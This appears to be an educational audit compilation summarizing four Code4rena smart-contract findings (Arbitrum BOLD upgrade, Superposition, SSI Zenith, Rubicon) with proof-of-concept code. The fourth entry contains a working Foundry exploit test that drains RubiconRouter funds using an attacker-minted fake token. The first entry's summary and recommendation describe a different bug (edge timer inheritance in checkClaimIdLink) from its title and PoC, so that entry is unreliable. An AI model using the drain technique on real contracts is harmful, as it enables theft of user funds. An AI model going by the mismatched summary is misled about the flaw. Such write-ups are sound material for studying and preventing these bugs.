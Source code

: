 # ETAAcademy-Adudit: 2. Error

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Error</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>context</th>
          <td>error</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] BOLDUpgradeAction.sol will fail to upgrade contracts due to error in the perform function

### Upgrade contracts

- Summary: The vulnerability in `checkClaimIdLink` allows an edge to inherit timers from its rival's children due to inadequate checks. This flaw can be exploited to inflate an edge's timer, enabling near-instant confirmation of any level 0 edge by repeatedly using a proved proof node and its ancestors or rivals. This occurs because only the originId and mutualId match is checked, allowing edges to inherit timers they shouldn't.

- Impact & Recommendation: Allow child edges to inherit the claimId of their parent and ensure the claiming edge's claimId matches the edgeId of the inheriting edge.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-arbitrum-foundation#m-02-boldupgradeactionsol-will-fail-to-upgrade-contracts-due-to-error-in-the-perform-function) & [Report](https://code4rena.com/reports/2024-05-arbitrum-foundation)

<details><summary>POC</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;
import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
struct OldStaker {
    uint256 amountStaked;
    uint64 index;
    uint64 latestStakedNode;
    // currentChallenge is 0 if staker is not in a challenge
    uint64 currentChallenge; // 1. cannot have current challenge
    bool isStaked; // 2. must be staked
}
interface IOldRollup {
    function pause() external;
    function forceRefundStaker(address[] memory stacker) external;
    function getStakerAddress(uint64 stakerNum) external view returns (address);
    function stakerCount() external view returns (uint64);
    function getStaker(address staker) external view returns (OldStaker memory);
}
contract C4 is Test {
    IOldRollup oldRollup;
    address admin;
    function setUp() public {
        uint256 forkId = vm.createFork("https://rpc.ankr.com/eth");
        vm.selectFork(forkId);
        oldRollup = IOldRollup(0x5eF0D09d1E6204141B4d37530808eD19f60FBa35);
        admin = 0x3ffFbAdAF827559da092217e474760E2b2c3CeDd;
    }
    function test_Cleanup() public {
        vm.startPrank(admin);
        oldRollup.pause();
        uint64 stakerCount = oldRollup.stakerCount();
        // since we for-loop these stakers we set an arbitrary limit - we dont
        // expect any instances to have close to this number of stakers
        if (stakerCount > 50) {
            stakerCount = 50;
        }
        for (uint64 i = 0; i < stakerCount; i++) {
            // FAILS with panic: array out-of-bounds access
            address stakerAddr = oldRollup.getStakerAddress(i);
            OldStaker memory staker = oldRollup.getStaker(stakerAddr);
            if (staker.isStaked && staker.currentChallenge == 0) {
                address[] memory stakersToRefund = new address[](1);
                stakersToRefund[0] = stakerAddr;
                oldRollup.forceRefundStaker(stakersToRefund);
            }
        }
    }
}
```

</details>

## 2.[High] createPoolD650E2D0 will not work due to mismatch in solidity and stylus function definitions

### Mismatch function definitions

- Summary: A mismatch between the `createPoolD650E2D0` function definitions in Solidity and Stylus causes direct calls to fail and rendering pool creation functionality inaccessible via this specific function. While a fallback mechanism exists to allow pool creation using the correct ABI, this workaround does not align with the intended design, where the function should operate as specified.

- Impact & Recommendation: A recommended fix involves removing the unnecessary parameters to align the function with its counterpart in Stylus.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-10-superposition#h-01-createpoold650e2d0-will-not-work-due-to-mismatch-in-solidity-and-stylus-function-definitions) & [Report](https://code4rena.com/reports/2024-10-superposition)

<details><summary>POC</summary>

```rust
    pub fn create_pool_D650_E2_D0(

        &mut self,

        pool: Address,

        price: U256,

        fee: u32,

    ) -> Result<(), Revert> {

 //...

     }

 }

```

```solidity

    function createPoolD650E2D0( //@audit

        address /* token */,

        uint256 /* sqrtPriceX96 */,

        uint32 /* fee */,

        uint8 /* tickSpacing */,

        uint128 /* maxLiquidityPerTick */

    ) external {

        directDelegate(_getExecutorAdmin());

    }
```

</details>

## 3.[Medium] cancelSwapRequest() old orderInfo using new swap causing failure to cancel

### Cancellation failures

- Summary: In the `AssetController.sol` contract, the `cancelSwapRequest()` method had a logic flaw where it used the updated `swap` address from the factory even after the `swap` had been changed using `AssetFactory.setSwap()`. This resulted in old order information (`orderInfo`) being processed with the new `swap` address, causing cancellation failures for old orders.

- Impact & Recommendation: To address this, a fix was implemented in commit `@2ac8fff8b32e`, which introduced a `swapAddress` parameter to ensure that each operation explicitly uses the correct `swap` address. Additionally, the `addMintRequest` method was updated to record the `swapAddress` for each request, ensuring consistency in subsequent operations.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-12-ssi-zenith) & [Report](https://code4rena.com/reports/2024-12-ssi-zenith)

<details><summary>POC</summary>

```solidity

function addMintRequest(uint256 assetID, OrderInfo memory orderInfo) external whenNotPaused returns (uint) {
...
    mintRequests.push(Request({
        nonce: mintRequests.length,
        requester: msg.sender,
        assetTokenAddress: assetTokenAddress,
        amount: order.outAmount,
        @> swapAddress: swapAddress,
        orderHash: orderInfo.orderHash,
        status: RequestStatus.PENDING,
        requestTimestamp: block.timestamp,
        issueFee: issueFee
    }));
    assetToken.lockIssue();
    emit AddMintRequest(mintRequests.length-1);
    return mintRequests.length-1;
}

```

</details>

## 4.[High] An attacker can steal all RubiconRouter funds

### Attacker steal funds

- Summary: The vulnerability in **RubiconRouter** allows an attacker to steal all funds stored in the router due to a bug in the **maxBuyAllAmount** and **maxSellAllAmount** functions, where the token used for repayment is mistakenly set as **buy_gem** instead of **pay_gem**.

- Impact & Recommendation: An attacker can exploit this by creating a fake token that only they can mint, approving it for market transactions, and then executing a trade that causes the router to send real assets (e.g., USDC) instead of the intended fake tokens. This results in the attacker stealing funds from the router. To mitigate this, the final transfers in these functions should use **pay_gem** instead of **buy_gem**.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-04-rubicon#h-08-an-attacker-can-steal-all-rubiconrouter-funds) & [Report](https://code4rena.com/reports/2023-04-rubicon)

<details><summary>POC</summary>

```solidity

  function test_WithRouter() public {
    RubiconRouter router = new RubiconRouter();
    router.startErUp(address(market), payable(address(WETH)));

    address attacker = 0x000000000000000000000000000000000000dACa;
    uint256 routerBalance = 1e10;
    deal(address(TUSDC), address(router), routerBalance); // Set this to simulate current router balance
    deal(address(TUSDC), attacker, 1+1);
    vm.deal(attacker, 1 ether);


    vm.startPrank(attacker);

    // create fake coin which only attacker can mint
    TokenWithFaucet FAKE = new TokenWithFaucet(attacker, "Fake", "FAKE", 18);
    FAKE.adminMint();


    FAKE.approve(address(market), type(uint256).max);
    TUSDC.approve(address(market), type(uint256).max);
    FAKE.approve(address(router), type(uint256).max);
    TUSDC.approve(address(router), type(uint256).max);


    // Create approval for fake coin (otherwise market will not be able to transfer fake coins from router)
    router.offerWithETH{value: 1}(1 /* ETH */, 1, FAKE, 0, attacker);
    router.buyAllAmountForETH(1, FAKE, 1);

    // Assume TEST is a fake token only attacker can mint
    uint256 fees = (routerBalance * (market.getFeeBPS() + market.makerFee())) / 100_000;
    market.offer(1, TUSDC, routerBalance, FAKE, 0, attacker, attacker); // offer 1 usdc for a lot of fake coin

    assertEq(TUSDC.balanceOf(attacker), 1);

    FAKE.transfer(address(router), routerBalance + fees); // give router fake coins so it can buy the offer
    router.maxBuyAllAmount(TUSDC, FAKE, type(uint256).max); // pay 1 usdc for a lot of usdc instead of fake coin (because of the vulnerability)

    assertGt(TUSDC.balanceOf(attacker), 1);
    console.log(TUSDC.balanceOf(attacker));

```

</details>
